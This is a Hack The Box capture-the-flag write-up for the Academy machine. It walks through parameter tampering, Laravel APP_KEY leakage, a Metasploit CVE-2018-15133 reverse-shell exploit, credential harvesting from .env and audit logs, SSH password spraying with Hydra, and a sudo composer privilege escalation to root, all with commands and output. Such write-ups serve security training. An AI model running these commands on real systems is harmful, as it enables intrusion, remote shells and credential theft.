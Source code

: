 # Target
| Category          | Details                                                |
|-------------------|--------------------------------------------------------|
| 📝 **Name**       | [Academy](https://app.hackthebox.com/machines/Academy) |  
| 🏷 **Type**       | HTB Machine                                            |
| 🖥 **OS**         | Linux                                                  |
| 🎯 **Difficulty** | Easy                                                   |
| 📁 **Tags**       | Laravel, CVE-2018-15133, Metasploit, composer          |

# Scan
```
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx  MySQL X protocol listener
```

# Attack path
1. [Discover staging virtual host in admin panel](#discover-staging-virtual-host-in-admin-panel)
2. [Gain initial foothold using RCE in Laravel due to unserialize call on `X-XSRF-TOKEN` HTTP header (CVE-2018-15133)](#gain-initial-foothold-using-rce-in-laravel-due-to-unserialize-call-on-x-xsrf-token-http-header-cve-2018-15133)
3. [Escalate to `cry0l1t3` user using discovered credentials](#escalate-to-cry0l1t3-user-using-discovered-credentials)
4. [Escalate to `mrb3n` user using discovered credentials](#escalate-to-mrb3n-user-using-discovered-credentials)

### Discover staging virtual host in admin panel

#### Add `academy.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Academy]
└─$ echo "$TARGET academy.htb" | sudo tee -a /etc/hosts
10.129.136.194 academy.htb
```

#### Create `admin` account by tampering `roleid` HTTP parameter
`roleid` parameter changed from `0` to `1`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Academy]
└─$ curl http://academy.htb/register.php -d 'uid=hacker&password=pass&confirm=pass&roleid=1'
```

#### Discover `dev-staging-01.academy.htb` virtual host after accessing admin panel
Admin panel discovered with `feroxbuster`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Academy]
└─$ curl -s -L -c cookies.txt http://academy.htb/admin.php -d 'uid=hacker&password=pass' | grep "Fix issue with"
    <td>Fix issue with dev-staging-01.academy.htb</td>
```

#### Add `dev-staging-01.academy.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Academy]
└─$ echo "$TARGET dev-staging-01.academy.htb" | sudo tee -a /etc/hosts
10.129.136.194 dev-staging-01.academy.htb
```

### Gain initial foothold using RCE in Laravel due to unserialize call on `X-XSRF-TOKEN` HTTP header ([CVE-2018-15133](https://nvd.nist.gov/vuln/detail/cve-2018-15133))

#### Discover Laravel application key dumped in error log on `dev-staging-01.academy.htb`
```
┌──(magicrc㉿perun)-[~/attack/HTB Academy]
└─$ APP_KEY=$(curl -s dev-staging-01.academy.htb | grep -m 1 -A1 APP_KEY | grep -oP 'base64:\K[^"<]*')      
```

#### Use discovered application key on `exploit/unix/http/laravel_token_unserialize_exec` Metasploit module to spawn reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB Academy]
└─$ msfconsole -q -x "\
    use exploit/unix/http/laravel_token_unserialize_exec; \
    set LHOST tun0; \
    set LPORT 4444; \
    set RHOST dev-staging-01.academy.htb; \
    set APP_KEY $APP_KEY; \
    run
"
[*] Starting persistent handler(s)...
[*] Using configured payload cmd/unix/reverse_perl
LHOST => tun0
LPORT => 4444
RHOST => dev-staging-01.academy.htb
APP_KEY => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
[*] Started reverse TCP handler on 10.10.16.40:4444 
[*] Command shell session 1 opened (10.10.16.40:4444 -> 10.129.136.194:37976) at 2025-09-03 21:16:38 +0200
[*] Command shell session 2 opened (10.10.16.40:4444 -> 10.129.136.194:37978) at 2025-09-03 21:16:38 +0200
[*] Command shell session 3 opened (10.10.16.40:4444 -> 10.129.136.194:37980) at 2025-09-03 21:16:39 +0200
[*] Command shell session 4 opened (10.10.16.40:4444 -> 10.129.136.194:37982) at 2025-09-03 21:16:40 +0200
/usr/bin/script -qc /bin/bash /dev/null
www-data@academy:/var/www/html/htb-academy-dev-01/public$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Escalate to `cry0l1t3` user using discovered credentials

#### Discover password in `/var/www/html/academy/.env` file
Password has been discovered with `linpeas`.
```
www-data@academy:/var/www/html/htb-academy-dev-01/public$ grep PASS /var/www/html/academy/.env
<dev-01/public$ grep PASS /var/www/html/academy/.env      
DB_PASSWORD=mySup3rP4s5w0rd!!
REDIS_PASSWORD=null
MAIL_PASSWORD=null
```

#### Obtain users list for password spraying
```
www-data@academy:/var/www/html/htb-academy-dev-01/public$ grep -E "/bin/(sh|bash)" /etc/passwd | cut -d: -f1
< grep -E "/bin/(sh|bash)" /etc/passwd | cut -d: -f1      
root
egre55
mrb3n
cry0l1t3
21y4d
ch4p
g0blin
```

#### Spray password over SSH server
```
┌──(magicrc㉿perun)-[~/attack/HTB Academy]
└─$ hydra -L users.txt -p 'mySup3rP4s5w0rd!!' ssh://academy.htb
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-03 21:55:04
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:7/p:1), ~1 try per task
[DATA] attacking ssh://academy.htb:22/
[22][ssh] host: academy.htb   login: cry0l1t3   password: mySup3rP4s5w0rd!!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-03 21:55:10
```

#### Gain access over SSH as `cry0l1t3` user
```
┌──(magicrc㉿perun)-[~/attack/HTB Academy]
└─$ ssh cry0l1t3@academy.htb
cry0l1t3@academy.htb's password: 
<SNIP>
$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

### Escalate to `mrb3n` user using discovered credentials

#### Discover `mrb3n` user password in audit logs
Password has been discovered with `linpeas`.
```
╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

#### Run shell as `mrb3n` user
```
$ su mrb3n
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
```

### Escalate to `root` user using `composer` PHP dependency manager

#### List allowed sudo commands
```
$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

#### Spawn root shell using script in `composer.json`
```
$ TF=$(mktemp -d) && \
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json && \
sudo composer --working-dir=$TF run-script x> > 
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
uid=0(root) gid=0(root) groups=0(root)
```


